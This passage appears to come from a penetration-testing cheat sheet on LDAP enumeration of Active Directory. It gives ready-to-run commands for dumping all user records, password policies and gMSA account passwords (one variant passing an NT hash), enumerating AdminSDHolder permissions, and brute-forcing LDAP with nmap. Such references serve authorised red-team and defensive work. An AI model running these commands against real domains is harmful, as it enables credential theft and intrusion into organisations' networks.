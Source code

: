 Dump all users info:

```
$ windapsearch --dc 192.168.1.11 -d megacorp.local -u snovvcrash -p 'Passw0rd!' -m users --full | tee ~/ws/enum/ldap-users.txt
```



### ldapsearch-ad

* [https://github.com/yaap7/ldapsearch-ad](https://github.com/yaap7/ldapsearch-ad)

Enumerate password policy in the domain:

```
$ python3 ldapsearch-ad.py -l 192.168.1.11 -d megacorp.local -u j.doe -p 'Passw0rd!' -t pass-pols
```

Run all checks:

```
$ python3 ldapsearch-ad.py -l 192.168.1.11 -d megacorp.local -u j.doe -p 'Passw0rd!' -t all
```



### gMSADumper

* [https://github.com/micahvandeusen/gMSADumper](https://github.com/micahvandeusen/gMSADumper)

```
$ python3 gMSADumper.py -d megacorp.local -l DC1.megacorp.local -u snovvcrash -p 'Passw0rd!'
$ python3 gMSADumper.py -d megacorp.local -l DC1.megacorp.local -u snovvcrash -p fc525c9683e8fe067095ba2ddc971889:fc525c9683e8fe067095ba2ddc971889
```



### ldeep

- [https://github.com/franc-pentest/ldeep](https://github.com/franc-pentest/ldeep)

Enumerate ACEs of the `AdminSDHolder` object:

```
$ ldeep ldap -s 'ldap://192.168.1.11' -d megacorp.local -u snovvcrash -p 'Passw0rd!' -b 'CN=System,DC=megacorp,DC=local' sddl AdminSDHolder | jq '.[].nTSecurityDescriptor.DACL.ACEs[] | select(.Type | contains("Allowed")) | .SID + " :: " + .Type'
```

Convert SID to name:

```
$ ldeep ldap -s 'ldap://192.168.1.11' -d megacorp.local -u snovvcrash -p 'Passw0rd!' from_sid <SID>
```



### Nmap NSE

```
$ nmap -n -Pn -sV --script ldap-rootdse 192.168.1.11 -p389
$ nmap -n -Pn -sV --script ldap-search 192.168.1.11 -p389
$ nmap -n -Pn -sV --script ldap-brute 192.168.1.11 -p389
```
